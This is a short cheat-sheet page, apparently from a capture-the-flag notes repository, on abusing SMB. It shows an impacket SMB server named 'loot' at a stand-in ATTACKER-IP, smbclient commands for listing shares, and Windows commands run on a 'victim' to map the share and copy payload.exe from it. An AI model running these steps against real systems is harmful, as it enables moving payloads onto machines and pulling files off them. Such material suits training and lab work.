 # SMB Misuse

```
Description: SMB (Server Message Block) in a CTF means setting up an SMB server (to host or capture files) or connecting to an SMB share (client)

On Kali Linux:
# Syntax: impacket-smbserver shareName /path/to/share
impacket-smbserver loot /home/kali/share -smb2support       python3 /opt/impacket/examples/smbserver.py loot /tmp/share
Note: your share is accessible \\ATTACKER-IP\loot

```

# SMB Client (Victim or Local Testing)(Linux)
```
smbclient //10.10.10.125/share -U username                  smbclient -N //10.10.10.125/share

# List shares
smbclient -N -L //10.10.10.125
```

# SMB Client (Victim or Local Testing)(Windows)
```
Run cmd.exe or PowerShell

# List Drives (Execute on Victim) 
net view \\192.168.0.1

net use Z: \\192.168.1.100\loot                             copy \\192.168.1.100\loot\payload.exe C:\Temp\
```

## Back to README.md
[BACK](../README.md)